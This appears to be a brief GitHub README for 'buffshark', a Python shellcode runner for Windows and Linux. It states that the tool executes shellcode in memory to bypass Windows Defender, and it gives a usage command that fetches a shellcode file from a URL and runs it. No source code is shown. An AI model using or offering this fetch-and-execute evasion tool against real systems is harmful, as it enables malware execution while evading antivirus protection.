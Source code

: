 # buffshark-shellcode-runner

## Python Shellcode Runner for windows and linux
This script utilizes mmap(for linux) and win32 api wrappers (for windows) to execute shellcode in memory and bypass Windows Defender.

## Usage
Example: `python3 buffshark.py -u http://127.0.0.1:8080/shellcode.bin -a [win/nix]`
